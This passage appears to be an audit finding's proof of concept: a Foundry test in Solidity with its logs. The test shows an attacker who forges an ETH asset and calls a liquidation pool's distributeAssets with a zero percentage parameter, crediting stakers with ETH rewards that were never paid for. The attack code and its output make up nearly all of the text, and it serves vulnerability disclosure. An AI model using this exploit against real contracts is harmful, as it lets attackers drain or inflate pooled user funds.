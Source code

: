 ```solidity
        uint256 amountInETH = (2900e18 * uint256(EurUsdRate)) / uint256(EthUsdRate);
        console2.log("The amountInETH that we want to distribute: ", amountInETH);
        ITokenManager.Token memory maliciousToken =ITokenManager.Token(
            ethBytes32,
            address(0),
            18,
            address(ClEthUsd),
            8
        );

        ILiquidationPoolManager.Asset memory maliciousAsset = ILiquidationPoolManager.Asset(
            maliciousToken,
            amountInETH
        );
        ILiquidationPoolManager.Asset[] memory maliciousArray = new ILiquidationPoolManager.Asset[](1);
        maliciousArray[0] = maliciousAsset;
        /// @notice we set the hundred_pc parameter to 0 so costInEuros is always 0
        /// @notice due to some roudnign down we have to supply some minimal amount of ETH as well
        vm.deal(attacker, 100);
        liquidationPool.distributeAssets{value: 100}(maliciousArray, 1, 0);
        console2.log("");
        console2.log("Positions after attack is performed");
        (, uint256 TSTAA, uint256 EUROsAA ) = liquidationPool.positions(alice);
        console2.log("Position of Alice: ", TSTAA/1e18, EUROsAA/1e18);
        (, uint256 TSTBA, uint256 EUROsBA ) = liquidationPool.positions(bob);
        console2.log("Position of Bob: ", TSTBA/1e18, EUROsBA/1e18);
        (, uint256 TSTJA, uint256 EUROsJA) = liquidationPool.positions(john);
        console2.log("Position of John: ", TSTJA/1e18, EUROsJA/1e18);
        console2.log("Liquidation Pool contract EURO balance: ", EURO.balanceOf(address(liquidationPool))/1e18);
        /// @notice the address and symbol of ETH, which have been faked to distribute rewards
        (bytes32 symbol, address addr, uint8 dec, address clAddr, uint8 clDec) = tokenManager.acceptedTokens(0);
        console2.log("");
        bytes memory aliceRewards = abi.encodePacked(alice, symbol);
        console2.log("Alice acumulated rewards in the real ETH symbol: ", liquidationPool.rewards(aliceRewards));
        bytes memory bobRewards = abi.encodePacked(bob, symbol);
        console2.log("Bob acumulated rewards in the real ETH symbol: ", liquidationPool.rewards(bobRewards));
        bytes memory johnRewards = abi.encodePacked(john, symbol);
        console2.log("John acumulated rewards in the real ETH symbol: ", liquidationPool.rewards(johnRewards));
        vm.stopPrank();
    }
```

```solidity
Logs:
  Positions before attack is performed
  Position of Alice:  1000 1066
  Position of Bob:  1000 1022
  Position of John:  1000 1000
  Liquidation Pool contract EURO balance:  3089
  The amountInETH that we want to distribute:  1337888674654160597

  Positions after attack is performed
  Position of Alice:  1000 1066
  Position of Bob:  1000 1022
  Position of John:  1000 1000
  Liquidation Pool contract EURO balance:  3089

  Alice acumulated rewards in the real ETH symbol:  445962891551386865
```